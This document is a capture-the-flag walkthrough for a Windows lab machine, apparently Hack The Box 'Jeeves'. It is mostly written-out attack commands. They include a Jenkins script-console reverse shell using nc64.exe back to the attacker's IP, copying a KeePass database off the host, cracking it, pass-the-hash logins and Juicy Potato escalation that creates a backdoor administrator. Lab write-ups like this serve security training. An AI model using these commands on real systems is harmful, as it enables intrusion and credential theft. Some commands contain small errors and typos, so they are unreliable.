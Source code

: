 
Crackmapexec, smbmap, Web Fuzzing, Jenkins, Pass-the-Hash Attack, KeePass, Juicy Potato Privilege Escalation, Alternative Data Streams.
keepass2john, john (John the Ripper)



**Concepts:**
- **Port 445 (SMB):**
  - Port 445 is a network protocol port commonly used for SMB (Server Message Block) communication. It's essential for file and printer sharing on Windows networks.

**Commands:**
1. **Using crackmapexec to Gather Information:**
   - Use `crackmapexec` to gather information about the target machine via SMB.
   ```bash
   crackmapexec smb 10.10.10.63
   ```

2. **Listing Shared Resources with smbmap:**
   - Attempt to list shared network resources on the machine using `smbmap`. An 'Authentication error' indicates the need for valid credentials.
   ```bash
   smbmap -H 10.10.10.63 -u 'null'
   ```

3. **Web Fuzzing with wfuzz:**
   - As SMB is exposed, explore web services on port 50000 using `wfuzz`.
   ```bash
   wfuzz -c --hc=404 -t 200 -w /wordlist -u http://10.10.10.63:50000/FUZZ
   ```

4. **Discovering Jenkins and Scripting:**
   - Identify an exposed Jenkins instance, known to be vulnerable due to enabled script consoles.
   - Exploit it to gain access.
   ```bash
   # On your machine
   smbserver smbFolder $(pwd) -smb2support
   # On the victim machine (execute in Jenkins script console)
   println "\\\\10.10.14.2\\smbFolder\\nc64.exe -e cmd 10.10.14.2 1234".execute().text
   # Back on your machine
   rlwrap nc -nlvp 1234
   ```

5. **Privilege Escalation - Finding a KeePass File:**
   - While examining user directories, find a .kdbx file, likely from KeePass.
   - Transfer it to your machine using your shared folder.
   ```bash
   # Victim machine
   copy CEH.kdbx \\10.10.14.8\smbFolder\CEH.kdbx
   ```

6. **Cracking KeePass Password:**
   - Use `keepass2john` to extract the password hash from the KeePass file.
   - Crack the hash using John the Ripper with a wordlist.
   ```bash
   keepass2john CEH.kdbx > hash
   john --wordlist=../../../wordlist/rockyou.txt hash
   ```

7. **Pass-the-Hash Attack:**
   - Verify if the cracked hash belongs to the 'Administrator' using `crackmapexec`. If it returns 'Pwn3d!,' it's valid.
   ```bash
   crackmapexec smb 10.10.10.63 -u 'Administrator' -H ':hash' -d jeeves.local
   ```

8. **Using psexec for Access:**
   - Exploit the pass-the-hash vulnerability with `psexec` to gain access as the Administrator.
   ```bash
   psexec WORKGROUP/Administrator@10.10.10.63 -hashes :hash
   ```

9. **Alternative Method - Privilege Check:**
   - Check the user's privileges using `whoami /priv`. If the user has 'SeImpersonatePrivilege,' consider using Juicy Potato.

10. **Juicy Potato Privilege Escalation:**
    - Download Juicy Potato and transfer it to the victim machine using your shared folder. https://github.com/ohpe/juicy-potato/releases/tag/v0.1
    ```bash
    # On your machine
    smbserver smbFolder $(pwd) -smb2support
    copy \\10.10.14.29\smbFolder\juicypotato.exe jp.exe
    ```
    - Execute Juicy Potato to create a new user with administrator privileges.
    ```bash
    jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user kvzlx Skinheadoi1216@ /add" -l 1337
    JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators" -l 1337
    jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
    jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL" -l 1337
    ```
    - Confirm the user's validity with `crackmapexec`.
    ```bash
    crackmapexec smb 10.10.10.63 -u 'kvzlx' -H 'Skinheadoi1216@'
    ```
11. **Access with the New User:**
    - Use `psexec` to access the system with the new user.
    ```bash
    psexec WORKGROUP/kvzlx@10.10.10.63 cmd.exe
    ```

12. **Root Flag Retrieval:**
    - To obtain the root flag, explore alternative data streams using the `dir /r /s` command.
    - View the flag with `more < hm.txt:root.txt`.

**Explanation of "Alternative Data Streams":**
In Windows, alternative data streams are a feature that allows files to have additional data attached to them beyond their main content. This feature is often used for legitimate purposes, but it can also be exploited by attackers to hide information or execute malicious code.

user e3232272596fb47950d59c4cf1e7066a
root afbc5bd4b615a60648cec41c6ac92530


```bash
*Video*

If you are compromising a Windows machine Check the user's privileges using "whoami /priv". 
If the user has 'SeimpersonatePrivilege', consider using Juicy Potato.  
  
- Download Juicy Potato and transfer it to the victim machine using your shared folder.  
  With Impacket-smbserver, we create a network-level shared resource identified by the name you choose, which is synchronized with the current working directory and supports SMB version 2

   impacket-smbserver smbJuicy $(pwd) -smb2support  
  
[#On](https://www.linkedin.com/feed/hashtag/?keywords=on&highlightedUpdateUrns=urn%3Ali%3Aactivity%3A7104799306024382465) 
Now, on the victim machine, we copy Juicy Potato using the previously created shared resource.
   copy \\your_ip\smbJuicy\JuicyPotato.exe JuicyPotato.exe  
  
- Execute Juicy Potato to create a new user with administrator privileges.  
- Utilize Juicy Potato with the "-t *" parameter to employ "CreateProcessWithTokenW and CreateProcessAsUser."
	- Employ the "-p" parameter to specify that you want to yudalaz "cmd" to execute a command and control the desaierd command.
- Use the "-a" parameter to pass the command you wish to execute as an argument.
- In this case, the desired command is "net user" to create a new user on the system.
  
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user kvzlx potato1234@ /add" -l 1337  

- ANext, add the new user to the local administrators group on the machine using "net localgroup.
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators kvzlx /add" -l 1337

- Now, modify the "LocalAccountTokenFilterPolicy" registry entry.
  JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337  

- Finally, ensure everything works by creating a network-level shared resource and granting full privileges to all users in the administrators group over this shared resource that you've created.
  
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL" -l 1337  
  
- Confirm the user's validity with `crackmapexec`.  
  
   crackmapexec smb  10.10.10.63-u 'kvzlx' -H 'potato1234@'  
  
- Use `psexec` to access the system with the new user.  
   psexec WORKGROUP/kvzlx@10.10.10.63 cmd.exe

```